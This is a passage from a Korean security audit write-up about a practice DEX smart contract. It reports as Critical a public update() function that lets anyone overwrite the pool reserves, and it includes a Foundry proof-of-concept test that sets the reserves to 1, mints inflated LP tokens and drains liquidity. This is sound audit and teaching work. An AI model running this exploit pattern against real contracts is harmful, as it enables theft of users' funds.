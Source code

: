 이후 공격자가 유동성 풀에 추가한다고 하였을 때, liquidity를 구하는 식에서 reserveX와 Y로 나누는 부분에서 각각이 1이기 때문에 공격자의 lp토큰이 굉장히 큰 숫자로 발행된다.
이를 통해 토큰을 출금하지 못하는 상태로 만들수 있고, 추가 동작을 통해 토큰을 탈취할 수 있을 것이라고 생각된다.




## Damon
### 파급력  
#### | <span style="color:Brown"> Critical</span>
### 설명
```javascript
140    function update(uint256 _balanceX, uint256 _balanceY) public {
141        require(_balanceX <= type(uint112).max && _balanceY <= type(uint112).max, "OVERFLOW");
142        console.log("_balanceX: ",_balanceX / 1e18);
143        reserveX = uint112(_balanceX);
144        reserveY = uint112(_balanceY);
145    }
```
```javascript
94    function mint(address _to) external returns (uint256 liquidity) {
>>        (uint112 _reserveX, uint112 _reserveY) = getReserves();
        uint256 balanceX = IERC20(tokenX).balanceOf(address(this));
        uint256 balanceY = IERC20(tokenY).balanceOf(address(this));
        uint256 amountX = balanceX - _reserveX;
        uint256 amountY = balanceY - _reserveY;
        uint256 totalSupply = totalSupply();

        if (totalSupply == 0) {
            liquidity = Math.sqrt(amountX * amountY);
        } else {
>>            liquidity = Math.min(amountX * totalSupply / reserveX, amountY * totalSupply / reserveY);
        }
        console.log(liquidity);
        require(liquidity > 0, "INSUFFICIENT_LIQUIDITY_MINTED");
        _mint(_to, liquidity);
        update(balanceX, balanceY);
    }
```
update 함수가 public으로 설정되어 있어 private 변수인 reserveX, reserveY 변수를 변조할 수 있다. mint가 external로 설정되어 있어 외부에서도 호출이 가능하고, addliquidity 한 뒤 mint함수를 호출할 수 있다.
```javascript
function test_exploit2_damon() external{
    console.log(address(this));
    uint firstLPReturn = dex.addLiquidity(1000 ether, 1000 ether, 0);
    emit log_named_uint("firstLPReturn", firstLPReturn / 1e18);
    dex.update(1,1);
    dex.mint(address(this));
    dex.update(3000 ether,3000 ether);
    console.log("balance of this: ", dex.balanceOf(address(this) )/ 1e18);
    firstLPReturn = dex.addLiquidity(3000 ether, 3000 ether, 0);
    emit log_named_uint("firstLPReturn", firstLPReturn / 1e18);
    console.log("balance of this: ", dex.balanceOf(address(this)) / 1e18);
    (uint tx, uint ty) = dex.removeLiquidity(firstLPReturn, 0, 0);
    console.log("second tx",tx / 1e18);
    console.log("second ty",ty / 1e18);
    console.log("balance of this: ", dex.balanceOf(address(this) )/ 1e18);
    (tx, ty) = dex.removeLiquidity(firstLPReturn, 0, 0);
    console.log("second tx",tx / 1e18);
    console.log("second ty",ty / 1e18);
    console.log("balance of this: ", dex.balanceOf(address(this) )/ 1e18);
}
```